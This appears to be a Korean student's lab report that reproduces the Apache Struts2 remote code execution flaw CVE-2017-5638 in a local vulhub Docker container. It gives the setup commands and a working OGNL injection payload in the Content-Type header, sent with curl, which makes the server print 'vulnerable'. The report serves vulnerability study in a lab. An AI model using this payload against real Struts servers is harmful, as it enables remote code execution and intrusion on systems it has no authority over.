


# CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서
## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

## 3. 실습 과경
3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

## 4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

## 5. 느낀점
이번 실습을 통해 도커로 취약한 환경을 빠르게 구성하고, 실제 취약점이 어떻게 악용될 수 있는지를 직접 체험할 수 있었다. Struts2처럼 널리 사용되는 프레임워크에서도 입력값 검증이 제대로 안 되면 큰 문제가 발생할 수 있다는 점을 실감했다. 실습을 진행하면서 PoC 과정이 생각보다 간단해서 보안 관리의 중요성을 다시 느꼈다.

## 6. 참고 자료
Vulhub Struts2 S2-045 환경
CVE-2017-5638 상세정보 - NVD

## 7. GitHub 레포 핑크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045
